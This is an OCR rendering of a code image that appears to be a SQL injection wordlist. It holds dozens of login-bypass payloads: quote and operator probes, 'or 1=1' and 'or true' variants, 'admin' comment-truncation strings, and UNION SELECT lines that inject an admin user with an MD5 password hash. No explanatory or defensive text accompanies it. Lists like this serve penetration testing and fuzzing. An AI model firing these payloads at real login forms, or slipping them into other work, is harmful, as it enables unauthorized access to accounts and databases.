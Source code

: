     '-'
    ' '
    '&'
    '^'
    '*'
    ' or 1=1 limit 1 -- -+
    '="or'
    ' or ''-'
    ' or '' '
    ' or ''&'
    ' or ''^'
    ' or ''*'
    "-"
    " "
    "&"
    "^"
    "*"
    " or ""-"
    " or "" "
    " or ""&"
    " or ""^"
    " or ""*"
    or true--
    " or true--
    ' or true--
    ") or true--
    ') or true--
    ' or 'x'='x
    ') or ('x')=('x
    ')) or (('x'))=(('x
    " or "x"="x
    ") or ("x")=("x
    ")) or (("x"))=(("x
    or 2 like 2
    or 1=1
    or 1=1--
    or 1=1#
    or 1=1/*
    admin' --
    admin' #
    admin'/*
    admin' or '2' LIKE '1
    admin' or 2 LIKE 2--
    admin' or 2 LIKE 2#
    admin') or 2 LIKE 2#
    admin') or 2 LIKE 2--
    admin') or ('2' LIKE '2
    admin') or ('2' LIKE '2'#
    admin') or ('2' LIKE '2'/*
    admin' or '1'='1
    admin' or '1'='1'--
    admin' or '1'='1'#
    admin' or '1'='1'/*
    admin'or 1=1 or ''='
    admin' or 1=1
    admin' or 1=1--
    admin' or 1=1#
    admin' or 1=1/*
    admin') or ('1'='1
    admin') or ('1'='1'--
    admin') or ('1'='1'#
    admin') or ('1'='1'/*
    admin') or '1'='1
    admin') or '1'='1'--
    admin') or '1'='1'#
    admin') or '1'='1'/*
    1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
    admin" --
    admin" #
    admin"/*
    admin" or "1"="1
    admin" or "1"="1"--
    admin" or "1"="1"#
    admin" or "1"="1"/*
    admin"or 1=1 or ""="
    admin" or 1=1
    admin" or 1=1--
    admin" or 1=1#
    admin" or 1=1/*
    admin") or ("1"="1
    admin") or ("1"="1"--
    admin") or ("1"="1"#
    admin") or ("1"="1"/*
    admin") or "1"="1
    admin") or "1"="1"--
    admin") or "1"="1"#
    admin") or "1"="1"/*
    1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
